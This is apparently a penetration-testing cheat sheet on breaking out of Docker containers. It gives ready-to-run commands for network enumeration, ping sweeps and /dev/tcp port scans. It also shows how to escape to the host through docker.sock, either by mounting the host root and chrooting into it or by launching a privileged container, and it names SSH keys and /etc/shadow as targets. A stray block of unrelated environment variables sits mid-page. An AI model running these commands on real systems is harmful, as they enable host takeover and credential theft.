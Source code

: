 ## Docker Breakout

To check if you are in a docker container type `hostname`. A docker has a random string as hostname. Check [Docker Breakout](https://juggernaut-sec.com/docker-breakout-lpe/)

**CHECK OS VERSION:**

### Enumeration

```bash
# MOUNTED FILE (common with father machine)
lsblk	# Get mounted devices
mount -l | grep <device>	# Check folders/writable files

# NETWORK SCAN
ifconfig
# Local ping sweep
for i in {1..255} ;do (ping -c 1 [INTRANET_CIDR_BLOCK].$i | grep "bytes from"|cut -d ' ' -
f4|tr -d ':' &);done
# Locan port scan
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/[INTRANET_IP]/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
for port in {1..65535}; do echo > /dev/tcp/[IP]/$port && echo "$port open"; done 2>/dev/null
```

Search for sockets:

```bash
find / -name docker.sock 2>/dev/null # Usually in /run/docker.sock
```

- If it is in `/run/docker.sock`:

  ```bash
  #List images to use one
  docker images
  #Run the image mounting the host disk and chroot on it
  docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
  ```

NODE_VERSION=18.20.8  HOSTNAME=0.0.0.0  YARN_VERSION=1.22.22  SHLVL=1  PORT=3000   NEXT_TELEMETRY_DISABLED=1 PWD=/app NODE_ENV=production 
- Otherwise use [docker bin32](https://get.docker.com/builds/Linux/i386/docker-latest.tgz) / [docker_bin_64](https://get.docker.com/builds/Linux/x86_64/docker-latest.tgz) (upload if not installed)

  ```bash
  # Create privileged container
  /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
  # List containers -> get ID of the new container
  /tmp/docker -H unix:///app/docker.sock ps	
  # Log in the container
  /tmp/docker -H unix:///app/docker.sock exec -it <id> /bin/bash
  # Get SSH key, /etc/shadow...
  ```
#### Interesting files
- `/proc/1/environ`
- `/proc/1/cmdline`
### ROOT
